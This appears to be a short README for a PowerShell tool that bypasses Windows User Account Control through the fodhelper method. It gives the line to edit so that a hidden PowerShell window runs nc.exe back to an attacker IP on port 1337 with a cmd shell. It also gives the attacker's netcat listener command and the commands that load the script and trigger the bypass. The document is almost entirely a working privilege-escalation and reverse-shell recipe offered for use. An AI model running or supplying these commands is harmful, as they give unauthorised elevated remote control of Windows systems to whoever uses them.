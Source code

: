 # Bypass UAC 

### Method 1
Before importing the file, please edit the "**BypassUACfodhelper.ps1**" file in the following section:: 

```
$CMD = "powershell -windowstyle hidden C:\Windows\Temp\nc.exe YOURIP 1337 -e cmd"
```

#### Execute:
```
kali@unix:/$ rlwrap nc -lvp 1337
```

```
Windows (Poweshell)> . .\BypassUACfodhelper.ps1
Windows (Poweshell)> UACBypass1
OR
Windows (Poweshell)> UACBypass2
```
